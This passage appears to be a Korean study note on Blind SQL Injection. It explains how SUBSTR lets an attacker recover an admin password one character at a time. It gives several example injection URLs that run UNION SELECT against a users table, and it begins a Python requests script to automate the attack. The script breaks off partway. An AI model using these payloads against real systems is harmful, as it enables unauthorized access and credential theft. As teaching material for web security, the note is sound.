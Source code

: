             ```
            - ```SUBSTR(string, position, length)``` 함수: 문자열(string)에서 지정한 위치(position)부터 길이(length)까지의 값을 반환하는 함수
                | SUBSTR 함수의 인자 | 설명 |
                |:---:|------|
                | string | Blind SQL Injection 공격을 통해 비밀번호를 획득하는 것이 목적 <br/> &nbsp;&nbsp; → users 데이터베이스의 **password** 부분의 데이터를 가져와 비교해야 함 |
                | position | password의 첫 번째부터 마지막 길이까지 하나씩 이동해가면서 쿼리를 전송해야 함 <br/> &nbsp;&nbsp; → ```position```의 값은 ```1 ~ (패스워드 길이)``` 범위의 정수값 |
                | length | 한 글자씩 password의 값을 알아내므로 ```length```의 값은 1로 고정됨 |
        - 예시: password의 첫 번째 문자를 알아내는 방법
            ```
            /?username=' UNION SELECT IF(SUBSTR(password, 1, 1)='A', 'admin', 'not admin') FROM users WHERE username='admin'-- ⇒ FALSE
            /?username=' UNION SELECT IF(SUBSTR(password, 1, 1)='B', 'admin', 'not admin') FROM users WHERE username='admin'-- ⇒ FALSE
            /?username=' UNION SELECT IF(SUBSTR(password, 1, 1)='C', 'admin', 'not admin') FROM users WHERE username='admin'-- ⇒ FALSE
            /?username=' UNION SELECT IF(SUBSTR(password, 1, 1)='D', 'admin', 'not admin') FROM users WHERE username='admin'-- ⇒ FALSE

            ...

            /?username=' UNION SELECT IF(SUBSTR(password, 1, 1)='P', 'admin', 'not admin') FROM users WHERE username='admin'-- ⇒ TRUE
            ```
            + ***이와 같은 방법으로 position과 비교할 문자를 변경해가며 password 전체를 획득할 수 있음***

<br/>

* Blind SQL Injection 공격 자동화
    - 한 바이트씩 비교하여 공격하는 방식이므로 다른 공격에 비해 많은 시간을 들여야 하며 이용자가 직접 입력하기엔 물리적으로 한계가 발생할 수 있음 <br/> &nbsp;&nbsp; **→ 📌 공격을 자동화하는 스크립트를 작성하여 Blind SQL Injection 공격을 수행함**
        + 대중적으로 많이 사용되는 Python이나 웹 브라우저에 기본적으로 내장되어 있는 Javascript를 이용하는 등 다양한 언어와 라이브러리를 활용하여 효율적인 공격 스크립트를 작성할 수 있음
    - 파이썬의 ```requests``` 모듈을 이용한 스크립트 작성 방법
        + ⚠️ 공격 자동화 스크립트를 작성하기 전에 **이용자가 입력할 수 있는 모든 문자의 범위**를 지정해야 함
            - 비밀번호의 경우 일반적으로 알파벳 대소문자, 숫자, 그리고 특수문자로 이루어짐 → 아스키 범위 중에서 32부터 126까지를 지정하여 공격 스크립트를 작성함
        + Python을 이용한 공격 자동화 스크립트 예시
            ```python
            #!/usr/bin/python3

            import requests
            import string

            url = 'http://example.com/login' # 공격 URL
            password = '' # password를 저장할 변수
            
            # 비밀번호가 포함될 수 있는 문자를 string 모듈로 사용해 생성함
            tc = string.ascii_letters + string.digits + string.punctuation
            # tc → abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
